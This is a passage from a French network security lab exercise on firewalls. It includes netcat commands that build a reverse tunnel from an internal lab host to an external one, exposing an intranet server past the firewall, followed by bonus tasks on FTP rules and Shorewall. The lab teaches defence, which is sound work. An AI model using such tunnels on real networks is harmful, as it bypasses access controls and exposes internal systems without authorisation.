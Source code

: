 Nous allons utiliser l'outil `netcat` pour établir un tunnel très simple.

Connectez-vous sur la machine "isp-a-home". Nous allons commencer par éteindre le service _Apache_ en écoute pour libérer le port 80 qui nous sera utile
puis nous allons écouter les connexions sur le port HTTP (TCP/80).
```bash
service apache2 stop
while true; do nc -v -l -p 80 -c "nc -l -p 8080"; done
```

Enfin, côté "target-dev", nous mettons en place la connexion sortante vers la machine distante:
```bash
while true; do nc -v 100.120.0.3 80 -c "nc 100.80.0.5 80"; sleep 2; done
```

>Pour rappel :
>* 100.120.0.3 = isp-a-home
>* 100.80.0.5 = target-intranet

Testez (avec la machine du hacker) que vous pouvez bien accéder au serveur intranet depuis l'externe sans aucun contrôle via l'URL `http://100.120.0.3:8080`

10. A l'aide d'un schéma, expliquez ce phénomène.

Il est très difficile de bloquer ou même détecter les tunnels (imaginez un tunnel chiffré par SSH, ou qui mime une apparence de HTTP, etc.)

Bonus
=====

FTP
---

FTP, comme quelques autres protocoles, présente des difficultés particulières pour les firewalls. En effet, la partie contrôle de FTP se passe sur une
connexion (et un port) distinct de la partie données. Les firewalls modernes savent créer le lien entre ces deux connexions pour y appliquer un contrôle
adapté.

Un serveur FTP est installé sur "target-dmz", configurez le firewall pour permettre son usage (transfert de fichiers) depuis une machine externe au SI.
Attention, le FTP demande une connexion avec un utilisateur existant, par exemple debian/debian.

Shorewall
---------
Vous avez pu vous rendre compte de la complexité du réglage manuel du pare-feu. En particulier, la lecture des règles existantes ou la vérification de leur
cohérence présente de nombreuses difficultés. La maintenance d'une telle solution est donc complexe dans un environnement de production : les règles
changent souvent et demandent une inspection régulière.

De nombreuses solutions ont été développées pour faciliter la gestion des règles iptables. Nous allons ici utiliser Shorewall. Shorewall n'est pas un démon
et repose entièrement sur iptables. Il consiste en une série de scripts permettant de simplifier la configuration, notamment en définissant la notion de 
zones. Sur "target-router", installez shorewall (`apt-get install shorewall`) puis réimplémentez votre politique de sécurité avec cet outil.

_Note : Pour les plus aventuriers, il est possible d'expérimenter firewalld, un outil plus moderne_

